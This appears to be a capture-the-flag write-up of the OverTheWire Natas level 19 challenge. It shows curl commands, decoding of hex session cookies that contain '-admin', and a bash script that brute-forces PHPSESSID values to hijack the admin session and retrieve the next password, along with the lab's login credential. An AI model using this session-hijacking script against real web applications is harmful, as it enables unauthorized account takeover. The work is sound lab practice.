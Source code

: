 ```
abs@MacBookPro OverTheWire % curl "natas19.natas.labs.overthewire.org/index.php?debug=1" -u natas19:tnwER7PdfWkxsG4FNWUtoAZ9VyZTJqJr                            
This page uses mostly the same code as the previous level, but session IDs are no longer sequential...
<p>
Please login with your admin account to retrieve credentials for natas20.
</p>
<form action="index.php" method="POST">
Username: <input name="username"><br>
Password: <input name="password"><br>
<input type="submit" value="Login" />
```

session IDs are no longer sequential?
```
abs@MacBookPro OverTheWire % curl "natas19.natas.labs.overthewire.org/index.php?debug=1" -u natas19:tnwER7PdfWkxsG4FNWUtoAZ9VyZTJqJr -F "username=admin" -F "password=password" -i | grep Cookie
Set-Cookie: PHPSESSID=3631332d61646d696e; path=/; HttpOnly
```
Sheeeeet

What is this? Let's run it few more times:
```
Set-Cookie: PHPSESSID=3330362d61646d696e; path=/; HttpOnly
Set-Cookie: PHPSESSID=3430312d61646d696e; path=/; HttpOnly
```
Same extesnsion... and also, kind of look like ASCII.

```
abs@MacBookPro OverTheWire % echo "3430312d61646d696e" | xxd -r -p
401-admin%
abs@MacBookPro OverTheWire % echo "3631332d61646d696e" | xxd -r -p
613-admin%   
```

LOL!! Let's do some scripting, based on the prev level:
```
#!/bin/bash

IDS=640
URL="natas19.natas.labs.overthewire.org/index.php/index.php?debug=1"
LOGIN="natas19:tnwER7PdfWkxsG4FNWUtoAZ9VyZTJqJr"
PASS=""

for id in $(seq 1 $IDS); do

	OUT=$(curl $URL -u $LOGIN -s -H "Cookie: PHPSESSID=$(echo -n "$id-admin" | xxd -p)")
	PASS=$(echo $OUT | grep "Password")

	if [ -n "$PASS" ]; then	
		echo "$OUT"
		exit
	fi
done

echo "Password for natas19: $PASS"
```
